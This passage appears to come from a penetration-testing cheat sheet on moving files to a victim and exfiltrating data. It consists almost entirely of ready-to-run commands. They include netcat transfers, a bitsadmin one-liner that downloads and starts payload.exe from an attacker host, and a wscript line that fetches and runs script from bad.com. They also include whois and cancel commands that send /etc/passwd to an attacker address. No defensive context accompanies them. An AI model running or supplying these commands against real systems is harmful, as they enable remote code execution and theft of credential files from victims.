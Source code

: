 #### NetCat <a id="netcat"></a>

```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

​# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method <a id="http-windows-debug-exe-method"></a>

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt

# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin <a id="http-windows-bitsadmin"></a>

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

#### Wscript Script Code Download & Execution <a id="wscript-script-code-download-and-execution"></a>

{% tabs %}
{% tab title="cmd code.js" %}
```bash
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```
{% endtab %}
{% endtabs %}

### Whois Data Exfiltration <a id="whois-data-exfiltration"></a>

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d

# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

### Cancel Data Exfiltration <a id="cancel-data-exfiltration"></a>

```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```
